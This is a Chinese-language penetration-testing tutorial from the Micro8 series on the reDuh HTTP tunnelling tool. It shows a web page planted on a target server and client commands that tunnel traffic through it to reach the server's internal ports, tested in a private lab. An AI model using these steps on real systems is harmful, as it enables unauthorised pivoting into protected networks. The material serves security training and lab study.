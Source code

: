 ```yaml
---
title: 100、HTTP隧道reDuh第四季
date: 2019-09-21 19:07:15
comments: true
categories: 
 - Micro8系列
---
```





**reDuh简介：**

reDuh是sensepost由2008-07年发布，从本质上讲，可以将JSP/PHP/ASP/ASPX等页面上传到目标服务器，便可以访问该服务器后面的主机。

BlackHat USA 2008介绍：  
https://drive.google.com/open?id=1AqmtuBnHQJS-FjVHzJMNNWokda048By-

Github：  
https://github.com/sensepost/reDuh

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```code
root@John:~# git clone https://github.com/sensepost/reDuh.git
Cloning into 'reDuh'...
remote: Enumerating objects: 47, done.
remote: Total 47 (delta 0), reused 0 (delta 0), pack‐reused 47
Unpacking objects: 100% (47/47), done.
root@John:~# cd reDuh/
root@John:~/reDuh# ls
README.markdown reDuhClient reDuhServers
```
![](../do/media/1baa9c1874d47e57ff19724c1e050dd8.jpg)

**靶机执行：**
以aspx为demo。

![](../do/media/853cde273f8ee0873156e9c624258201.jpg)

**攻击机执行：**  
绑定端口：
```code
root@John:~/reDuh/reDuhClient/dist# java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx
[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010
```
![](../do/media/2596f6edba3d76db9a416b2011e8fb9b.jpg)

开启新terminal，建立隧道  
命令如下：  
[createTunnel][本地绑定端口]:  127.0.0.1:[远程端口]  
```code
root@John:~# telnet 127.0.0.1 1010
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Welcome to the reDuh command line
>>[createTunnel]30080:127.0.0.1:80
Successfully bound locally to port 30080. Awaiting connections.
```
![](../do/media/9a14208cab4886588559a38d694a5cf1.jpg)

攻击机端口前后对比：
```code
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::22 :::* LISTEN 674/sshd
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::1010 :::* LISTEN 6102/java
tcp6 0 0 :::22 :::* LISTEN 674/sshd
tcp6 0 0 :::30080 :::\* LISTEN 6102/java 
```
![](../do/media/525c8fec46511f49176e20b50a017226.jpg)

访问攻击机30080端口，既等价于访问靶机80端口
```code
root@John:~# curl http://192.168.1.5:30080/
<html> 

<head>
<meta HTTP‐EQUIV="Content‐Type" Content="text/html; charset=gb2312"> 

<title ID=titletext>建设中</title>

</head> 

<body bgcolor=white> 

... 

</body>

</html>
```
![](../do/media/4594e609d339d06fe44ecf11a575c966.jpg)


遗憾的是reDuh年代久远，使用繁琐，并官方已停止维护。但是它奠定了HTTP隧道。

>   Micropoor
